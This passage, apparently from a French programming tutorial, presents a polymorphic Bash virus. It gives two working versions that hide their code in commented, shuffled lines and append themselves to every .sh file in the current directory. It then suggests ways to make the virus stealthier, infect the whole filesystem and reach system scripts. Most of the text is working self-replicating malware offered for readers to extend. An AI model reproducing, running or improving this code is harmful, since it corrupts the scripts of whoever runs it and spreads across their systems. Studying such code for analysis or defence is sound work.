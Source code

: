 ```bash
  tail -n 7 $0 | cut -c3- | sort -n -t`printf "\x40\n"` -k2 | tail -n 6 > virus && chmod +x virus && ./virus
# for f in *.sh; do # @1
#   tail -n 6 $0 | sort -R > infection # @2
#   sed -i "s/^/# /" infection # @3
#   sed -i "/$[ RANDOM % 7 ] i\  tail -n 7 $0 | cut -c3- | sort -n -t`printf "\x40\n"` -k2 | tail -n 6 > virus && chmod +x virus && ./virus" infection #@4
#   cat infection >> $f # @5
# done # @6
```

Enfin un code qui fonctionne !

### Bilan et améliorations

Après avoir bien amélioré notre virus minimaliste de départ qui tenait, je vous le rappelle, en trois lignes, voilà notre virus polymorphe final :

```bash
  tail -n 15 $0 | cut -c3- | sort -n -t`printf "\x40\n"` -k2 | tail -n 14 > virus && chmod +x virus && ./virus
# if [ "$1" == "test" ]; then # @1
#   exit 0 # @2
# fi # @3
# for f in *.sh; do # @4
#   nbrlines=`wc -l $f | cut -f1 -d' '` # @5
#   if [ $nbrlines -gt 14 ]; then # @6
#     tail -n 15 $f | cut -c3- | sort -n -t`printf "\x40\n"` -k2 | tail -n 14 > test && chmod +x test # @7
#     ./test test > /dev/null 2>&1 && continue # @8
#   fi # @9
#   tail -n 14 $0 | sort -R > infection # @10
#   sed -i "s/^/# /" infection # @11
#   sed -i "/$[ RANDOM % 15 ]/ i\  tail -n 15 $0 | cut -c3- | sort -n -t`printf "\x40\n"` -k2 | tail -n 14 > virus && chmod +x virus && ./virus" infection #@12
#   cat infection >> $f # @13
# done # @14
```

Nous nous arrêterons là mais voici quelques améliorations possibles afin de vous exercez tout seul :

* On utilise des fichiers intermédiaires `virus`, `test` et `infection` afin d'ordonner le code permuté du virus présent dans un fichier infecté, l'exécuter et reproduire le virus (car sed a notamment besoin qu'on lui passe un fichier en argument). Ce n'est pas très discret, vous pourriez améliorer cela (petite indication : servez-vous de /tmp/).

* Notre virus n'infecte que les fichiers du répertoire courant. Essayez d'étendre ce comportement afin d'explorer récursivement tout le système !

* Notre virus n'infecte que les fichiers en `.sh`, il serait t'intéressant d'étendre son infection aux scripts du système.

* Vous pouvez aussi vous amuser à jouer avec la furtivité du virus : essayez d'accélérer son fonctionnement (en utilisant le moins d'écriture disque intermédiaire possible) afin de rendre son exécution la brève possible et donc de passer plus inaperçu en cas de traitement de milliers de fichiers. Vous pouvez au contraire rendre son exécution beaucoup plus lente afin d'améliorer sa survie, etc.
